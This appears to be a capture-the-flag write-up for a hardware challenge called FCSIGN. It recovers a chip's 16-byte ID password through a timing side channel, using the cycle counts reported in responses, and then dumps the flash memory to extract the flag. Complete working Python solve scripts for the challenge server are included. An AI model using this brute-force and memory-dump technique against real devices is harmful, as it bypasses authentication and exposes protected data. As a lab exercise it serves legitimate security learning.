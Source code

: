 ```yaml
---
ai_date: 2025-04-27 05:27:31
ai_summary: Challenge involved brute-forcing a 16-byte password by measuring time differences in response cycles, exploiting string comparison order.
ai_tags:
  - brute
  - timing
  - password-guessing
created: 2025-04-19T21:18
points: 500
solves: 3
title: FCSIGN
updated: 2025-07-14T09:46
---
```


After reading the datasheet I can tell that the most important part of this challenge is the 16 byte password.

> An ID can be used to secure your processor. This is a 16 byte ID consisting of CAPITAL alphabetical characters 'A' through 'Z'. If a user attempts to bruteforce this password, the chip will be erased, preserving the contents.

```python
async def receive_data(socket):
    response = await socket.recv()
    message = json.loads(response)
    return base64.b64decode(message['data']), message['cycles']
```

Since each response includes the number of cycles used, I immediately tried using it to guess the password character by character. And it worked.

Most string comparisons go left to right, and return early on error. So if there are more correct characters on the left, it will take the board longer to return.

```
...
[/] R : delta = 15500 cycles
[/] Q : delta = 15500 cycles
[/] P : delta = 16000 cycles
[/] O : delta = 15250 cycles
[/] N : delta = 15250 cycles
[/] M : delta = 15250 cycles
...
[*] max char: P (16000 cycles)
```

Afterwards I simply follow the datasheet and request `0x400` byte chunks until the board does not respond with one.

```
...
[+] Read 0x400 bytes from 0xed400
[+] Read 0x400 bytes from 0xed800
[-] READ failed at 0xedc00: INVALID_ADDRESS
Stopped at 0xedc00 with status INVALID_ADDRESS
Total bytes read: 962560
[*] Dump saved to dump.bin
```

## extraction
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1745115389/2025/04/bb1d32ca1c01d507bf08bcfd9f51f776.png)

Couldn't tell what the file really is, but I see PNG headers and a bunch of plain text. So I did a `binwalk -Me` on it.

```sh
binwalk -Me dump.bin
```

And one of the image frames contained the flag.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1745114781/2025/04/d1441cc929061d4350d9d8e7c9a8f365.png)

Not sure why this challenge has so little solves, just follow the instructions.
## solve

```flag
UMASS{un(_b3_w1l1n_w1th_s1d3ch4nn3l1n_XT60WWSC}
```

```python [client.py]
import asyncio
import json
import base64
import string
import websockets
from comm import encode_packet, decode_packet, COMMANDS, RESPONSES

URL = 'ws://hardware.ctf.umasscybersec.org:10004'


async def send_raw(ws, data: bytes):
    env = json.dumps({'data': base64.b64encode(data).decode()})
    # print(f">>> {data.hex()}")
    await ws.send(env)


async def recv_pkt(ws):
    msg = await ws.recv()
    obj = json.loads(msg)
    raw = base64.b64decode(obj['data'])
    # print(f"<<< {raw.hex()}")
    info = decode_packet(raw)
    return info, obj.get('cycles')


async def dump_until_fail(ws):
    data = bytearray()
    addr = 0
    while True:
        pkt = encode_packet(COMMANDS.READ, addr.to_bytes(4, 'little'))
        await send_raw(ws, pkt)
        resp, _ = await recv_pkt(ws)
        status = resp['status']
        if status != RESPONSES.ACK:
            print(f"[-] READ failed at {hex(addr)}: {status.name}")
            return data, addr, status
        data.extend(resp['args'])
        print(f"[+] Read 0x400 bytes from {hex(addr)}")
        addr += 0x400


async def main():
    ws = await websockets.connect(URL)
    await send_raw(ws, b'\x55\x00\xC1\x00')
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    await send_raw(ws, encode_packet(COMMANDS.COMM_INIT))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    freq = (8_000_000).to_bytes(4, 'little')
    await send_raw(ws, encode_packet(COMMANDS.SET_CHIP_FREQ, freq))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    known = b''
    while len(known) < 16:
        last_c = _
        count = {}
        for l in reversed(string.ascii_uppercase):
            pwd = known+l.encode() + b'A'*(15-len(known))
            await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, pwd))
            resp, _ = await recv_pkt(ws)
            print(f"[/] {l} : delta = {_-last_c} cycles")
            count[l] = _-last_c
            last_c = _
        max_char = max(count, key=count.get)
        print(f"[*] max char: {max_char} ({count[max_char]} cycles)")
        known += max_char.encode()
        print(f"[*] known: {known.decode()}")
    await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, known))
    resp, _ = await recv_pkt(ws)
    print(f"[*] ID_AUTHENTICATION: {resp['status']}")

    full_dump, fail_addr, fail_status = await dump_until_fail(ws)
    print(f"Stopped at {hex(fail_addr)} with status {fail_status.name}")
    print(f"Total bytes read: {len(full_dump)}")

    with open('dump.bin', 'wb') as f:
        f.write(full_dump)
    print(f"[*] Dump saved to dump.bin")

if __name__ == '__main__':
    asyncio.run(main())
```

```python [comm.py]
import struct
from enum import IntEnum


class COMMANDS(IntEnum):
    UNKNOWN = 0x00
    COMM_INIT = 0x03
    SET_CHIP_FREQ = 0x05
    ID_AUTHENTICATION = 0x34
    READ = 0x69


class RESPONSES(IntEnum):
    ACK = 0x50
    INVALID_COMMAND = 0x80
    FLOW_ERROR = 0x81
    UNAUTHORIZED = 0x82
    INVALID_FREQUENCY = 0x83
    INVALID_ID_LEN = 0x84
    INVALID_ADDRESS = 0x87
    INVALID_ADDRESS_ALIGNMENT = 0x88


def encode_packet(cmd: COMMANDS, args: bytes = b'') -> bytes:
    """
    Build a UK47XD packet for sending.

    Packet layout:
      HEAD  (1B)   = 0x33
      LEN   (2B)   = size of DATA (CMD + ARGS)
      DATA (N bytes) = CMD (1B) + ARGS
    """
    head = 0x33
    length = 1 + len(args)  # 1 byte for CMD + len(args)
    return struct.pack('<B H B', head, length, cmd) + args


def decode_packet(pkt: bytes) -> dict:
    """
    Parse a UK47XD packet into its fields.

    Expects at least 5 bytes: HEAD (1) + LEN (2) + CMD (1) + STATUS (1).
    Any remaining bytes are ARGS.
    """
    if len(pkt) < 5:
        raise ValueError("Packet too short to be valid")

    head, length = struct.unpack_from('<B H', pkt, 0)
    if head != 0x33:
        raise ValueError(f"Invalid HEAD byte: 0x{head:02X}")

    expected_len = 3 + length  # 1B HEAD + 2B LEN + length
    if len(pkt) != expected_len:
        raise ValueError(f"Length mismatch: expected {expected_len} bytes, got {len(pkt)}")

    cmd = COMMANDS(pkt[3])
    status = RESPONSES(pkt[4])
    args = pkt[5:]

    return {
        'head':   head,
        'length': length,
        'cmd':    cmd,
        'status': status,
        'args':   args,
    }
```